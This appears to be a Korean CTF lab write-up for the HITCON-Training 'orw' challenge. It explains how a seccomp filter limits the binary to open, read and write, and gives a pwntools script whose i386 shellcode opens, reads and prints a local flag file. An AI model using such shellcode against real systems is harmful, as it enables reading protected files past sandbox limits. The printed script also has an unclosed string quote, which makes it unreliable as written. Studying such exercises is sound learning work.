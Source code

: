 # 문제
***

이 문제는 처음에 orw_seccomp함수 내에서 prctl 함수를 호출한다. 이를 통해서 권한 상승 (setuid 등을 이용한)을 방지하고 사용할 수 있는 syscall의 종류를 제한한다. (read, write, open, exit syscall만 사용 가능)

정의되어 있는 option 및 option 값 설명 :  <https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/prctl.h>

option 설명 : <http://man7.org/linux/man-pages/man2/prctl.2.html>

그리고 0xc8 바이트 만큼의 입력을 받은 뒤 입력으로 받은 코드를 호출한다.

flag.txt를 읽어오기 위해서는 open()을 통해 해당 파일을 열고 read를 통해서 flag.txt 내용을 stack에 옮긴다. 그 뒤 표준출력에 stack에 저장된 내용을 write를 하면 flag.txt의 내용을 읽어올 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

shell=(pwnlib.shellcraft.i386.open('/home/sungyun/HITCON-Training/LAB/lab2/flag.txt))
shell+=(pwnlib.shellcraft.i386.read(3,'esp',30))
shell+=(pwnlib.shellcraft.i386.write(1,'esp',30))

exploit=asm(shell,arch='i386')

p=process("/home/sungyun/HITCON-Training/LAB/lab2/orw.bin")

p.recvuntil(":")
p.send(exploit)
print p.recv()

```
# 질문?
***
이 elf 파일이 실행되는 machine은 x86_64이다. 따라서 입력으로 주는 코드로 x64 (AMD64) 어셈블리를 주면 실행할 수 있을거라고 생각했다. 하지만 x64 어셈블리를 입력으로 주어도 해당 파일 내에서는 코드를 x86 어셈블리로 해석해버린다. 그래서 제대로 된 동작을 하지 않는다. 뭐 그렇단다...ㅋㅋ
